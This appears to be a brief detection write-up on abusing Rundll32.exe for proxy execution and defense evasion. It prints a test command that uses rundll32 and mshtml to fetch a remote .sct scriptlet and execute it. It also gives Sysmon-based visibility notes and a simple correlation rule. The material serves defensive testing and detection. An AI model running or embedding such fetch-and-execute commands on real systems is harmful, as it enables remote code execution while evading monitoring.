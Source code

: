 _______________________________________________________________________________________________________________
Technique Description: Rundll32.exe 
------------------------------------
Rundll32.exe is a Windows program that allows for execution of binaries. This can be used by attackers as a defense evasion 
tactic as well as an execution tactic because it can be used as a proxy to run their malicious code since the process may 
not be monitored due to false positives.  

Assumptions 
-------------

 Execution (test script used) 
-------------
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1085/T1085.sct").Exec();"


 Detection 
-------------
    Visibility 
    -------------

A binary run through rundll32.exe will generate an Event ID 1 on Windows 7 through Sysmon operational logs as Process Create. 
When the script or binary is finished execution it will trigger EventID 5 Process Termination.  

    Filter/ Correlation Rule 

EventCode=4656 OR EventCode=1 AND rundll32.exe
![rundll32](https://user-images.githubusercontent.com/32250546/55583319-9a745b00-56ef-11e9-897b-5d4d02a65380.png)
